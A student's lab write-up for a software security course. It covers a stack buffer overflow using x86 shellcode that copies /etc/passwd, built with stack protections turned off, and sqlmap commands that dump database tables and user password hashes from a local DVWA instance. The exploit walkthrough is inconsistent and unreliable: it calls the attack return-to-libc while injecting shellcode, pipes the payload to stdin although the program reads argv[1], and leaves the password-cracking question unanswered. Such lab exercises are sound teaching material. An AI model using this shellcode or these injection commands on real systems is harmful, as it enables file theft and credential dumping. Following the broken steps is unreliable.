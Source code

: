 # Lab #1, 22110082, Nguyen Duc Tri, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80
```

 **Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: 
## 1. Create the assembly shell code named `shellcode.asm` and the given C code named `vuln.c`:
*Copy the assembly code above and save it in the assembly file:* <br> 

## 2. First, compile the Assembly ShellCode: 
*Use `nasm` to assemble the code into an object file:*

```sh
nasm -f elf32 -o shellcode.o shellcode.asm
```

*Link the object file to create an executable file using `ld`:* 

```sh
ld -m elf_i386 -o shellcode shellcode.o
```

*Observe the shellcode in machine format:* 

```sh
for i in $(objdump -d shellcode |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
*The printed result shows a 97 bytes long:*

![image](https://github.com/user-attachments/assets/200af312-f8e9-436d-95af-dd62ac86c2a6)



## 3. Next, compile the C program: 
*Compile the C code using `gcc`:* <br> 

```sh
gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```


## 4. Stack Frame Visualization: 
![image](https://github.com/user-attachments/assets/9a7f47b2-94da-4e3f-8255-f84f2c618f6f)

**Conclusion:** *The program has a vulnerability in the `strcpy` call, where an attacker can overflow the buffer variable in `main`. This allows us to overwrite the saved return address on the stack.* 

## 5. Prerequisite for the attack: 
*In this case, I will use a Return-to-lib-c attack* <br> 
*First, we need to know the address of ebp:* 

```sh
disas main
```
![image](https://github.com/user-attachments/assets/dc32b882-b763-448c-8f0e-d8a593cb7064)




## 6. Conduct an attack: 
*Construct a payload*: 

![image](https://github.com/user-attachments/assets/403a0863-cb42-41a9-9e86-41d9bdde6f65)

```sh
python exploit.py | ./vuln
```


# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**: <br>
## 1. Identify the vulnerable URL: 
*Let proceed to the cookies when entering ID = 2* 

![image](https://github.com/user-attachments/assets/ef903365-d7e6-419e-9d59-59052b30ef77)

```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7"    
```

*Revealing the DVWA tables:*
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7"  -D dvwa --tables 
```
![image](https://github.com/user-attachments/assets/0a43a875-621d-4dd9-bf8a-12ede9fa3cf2)


*Revealing the database schemas:*

```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7" --schema --batch
```
![image](https://github.com/user-attachments/assets/ea59799d-ff40-45ed-be1a-a9a845666ea4)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**: <br>
*To observe the users information within DVWA, we can use:* <br> 
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7" --columns -T users --batch  
```
![image](https://github.com/user-attachments/assets/946a78a8-58b5-48a0-a967-63884a581622)


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**: <br> 
*Dump usernames and passwords: 
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7" --dump -T users --batch
```
![image](https://github.com/user-attachments/assets/740644fb-bc79-4c46-b998-02535fe6b624)











